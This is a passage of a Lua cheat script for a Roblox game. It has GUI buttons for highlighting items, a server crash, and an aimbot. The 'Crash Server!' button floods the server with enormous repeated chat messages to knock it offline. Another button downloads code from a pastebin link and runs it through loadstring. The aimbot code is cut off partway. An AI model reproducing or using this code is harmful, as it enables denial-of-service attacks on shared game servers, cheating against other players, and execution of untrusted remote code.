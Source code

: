 				while true do
					if object.Parent.ChildRemoving:wait() == object then
						a:Destroy()
						break
					end
				end
			end)
		end
	end
	for i, v in next, game.Workspace.Ignored.Drop:GetChildren() do
		cham(v)
	end
	game.Workspace.Ignored.Drop.ChildAdded:connect(cham)
end)
Extras:NewButton("Crash Server!", "", function()
local prefixe = "/"

	local Message = (prefixe.. "clean".." "):rep(95999988)

	for i = 1, 750 do
		game.Players:Chat(Message)
	end
end)
Extras:NewKeybind("Toggle GUI", "Hides The Menu", Enum.KeyCode.V, function()
Library:ToggleUI()
end)
Featured:NewButton("Sing ''Super Idol''", "Ib: Destiny", function()
local sound = Instance.new("Sound")
    sound.SoundId = "rbxassetid://7739913941"
    sound.Parent = game:GetService("SoundService")
    sound:Play()
wait(.1)
loadstring(game:HttpGet('https://pastebin.com/raw/rPYUnz5a'))()
end)
Featured:NewButton("Aimlock [Tool]", "", function()
end)
Featured:NewButton("Aimbot [Rclick]", "", function()
local CC = game:GetService"Workspace".CurrentCamera
	local Plr
	local enabled = false
	local accomidationfactor = 0.165
	local mouse = game.Players.LocalPlayer:GetMouse()
	local placemarker = Instance.new("Part", game.Workspace)
	local guimain = Instance.new("Folder", game.CoreGui)

	function makemarker(Parent, Adornee, Color, Size, Size2)
		local e = Instance.new("BillboardGui", Parent)
		e.Name = "PP"
		e.Adornee = Adornee
		e.Size = UDim2.new(Size, Size2, Size, Size2)
		e.AlwaysOnTop = true
		local a = Instance.new("Frame", e)
		a.Size = UDim2.new(1, 0, 1, 0)
		a.BackgroundTransparency = 0.4
		a.BackgroundColor3 = Color
		local g = Instance.new("UICorner", a)
		g.CornerRadius = UDim.new(50, 50)
		return(e)
	end

